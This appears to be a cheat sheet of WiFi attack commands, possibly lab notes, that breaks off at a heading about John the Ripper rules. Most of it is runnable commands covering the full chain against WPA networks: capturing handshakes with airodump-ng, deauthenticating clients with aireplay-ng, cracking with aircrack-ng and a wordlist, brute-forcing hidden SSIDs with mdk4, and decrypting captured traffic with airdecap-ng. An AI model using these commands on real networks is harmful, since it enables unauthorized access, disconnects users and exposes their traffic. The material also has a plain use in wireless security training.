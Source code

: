 `sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon`

---

#### 🔹 Deauthenticate a Client (Force Handshake)

`sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon`

_If no handshake is captured, increase the deauth count._

---

 And on other termenal :
#### 🔹 Crack Handshake with Wordlist

`aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap`

---

#### 🔹 Brute-force SSID (Hidden Network)

`iwconfig wlan0mon channel 11 mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt`

---

#### 🔹 Connect to Open WiFi via Bash

`network={     ssid="ESSID"     key_mgmt=NONE     scan_ssid=1 }`

Save to `free.conf`, then:

`wpa_supplicant -Dnl80211 -iwlan2 -c free.conf` 

In another terminal as root:

`sudo dhclient wlan2 -v`

----------------------
#### 🔹 Connect to WPA-PSK with password

```
network={
  ssid="home_network"
  scan_ssid=1
  psk="password_here"
  key_mgmt=WPA-PSK
}
```

---

#### 🔹 Decrypt Traffic with Known Password

`airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap`

---

#### 🔹 Edit John the Ripper Mangling Rules
